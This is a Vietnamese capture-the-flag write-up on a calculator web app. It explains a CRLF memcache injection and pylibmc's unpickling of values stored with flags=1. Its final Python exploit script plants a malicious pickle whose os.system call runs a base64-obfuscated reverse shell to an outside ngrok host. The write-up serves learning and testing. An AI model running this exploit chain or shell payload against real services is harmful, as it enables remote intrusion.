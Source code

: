 # Solution

Bài này server sử dụng package celery để tạo các task queue, đồng thời kết hợp với memcache để lưu  kết quả của các phép tính cộng trừ nhân chia giúp giảm thời gian tính toán trong những lần sau.

Dễ thấy với những bài sử dụng text-based protocol như thế này ta thường có thể inject vào backend (redis, memcache, ...). Và ở bài này cũng vậy, có thể khai thác memcache injection tại route `/calc/<operation>/<lhs>/<rhs>`

Syntax đúng của set command trong memcache như sau:

(set_command.png)

Thử inject key là `vanir` với value là `haha`

(memcahe_inject.png)

Exec vào container, telnet đến memcahe server và tiến hành kiểm tra

(inject_success_check)

-> Thành công.

Tiếp theo, mình dive source để tìm kiếm thêm thông tin cho việc rce. Server sử dụng `pylibmc` làm memcache client để thực hiện set và get data. Về `pylibmc`, nó là một thư viện python nhưng được viết bằng C và khi dive source của thằng này sẽ tìm được mảnh ghép cuối cùng để solve bài này.

Chain sẽ như sau:

```
PylibMC_Client_get ->
  _PylibMC_parse_memcached_value ->
    _PylibMC_deserialize_native ->
      _PylibMC_Unpickle_Bytes, _PylibMC_Unpickle
```

Nếu `dtype` là `PYLIBMC_FLAG_PICKLE` thì sẽ thực hiện unpickle -> rce (Source tại [đây](https://github.com/lericson/pylibmc/blob/78138d33c4156111294269a2a8f0cfcc66ac5c5c/src/_pylibmcmodule.c))

(unpickle.png)

Và check file `_pylibmcmodule.h` tại [đây](https://github.com/lericson/pylibmc/blob/78138d33c4156111294269a2a8f0cfcc66ac5c5c/src/_pylibmcmodule.h), ta thấy để thỏa mãn điều kiện thì cần giá trị của `flags` khi gửi command set là `1`

(flag_pickle.png)

Final script:
```python
import requests
import pickle, os
import urllib.parse
import base64
class RCE:
    def __reduce__(self):
        cmd = ('echo c2ggLWkgPiYgL2Rldi90Y3AvNi50Y3Aubmdyb2suaW8vMTk1MjIgMD4mMQ==|base64 -d|bash')
        return os.system, (cmd,)

url = "http://127.0.0.1:5000"

if __name__ == '__main__':

    path = f"/calc/add/123/123"

    pickledPayload = pickle.dumps(RCE(), 1)
    len_payload = len(pickledPayload)
    print(len_payload)


    set_command = b"\r\nset uwsgi_file__app_chall._add_1_1233 1 60 111"+ b"\r\n" + pickledPayload + b"\r\n"

    final_path = path + urllib.parse.quote_from_bytes(set_command)

    print(url +  final_path)
    print(requests.get(url +  final_path).text)
    print(requests.get(url + "/calc/add/1/1233").text)
```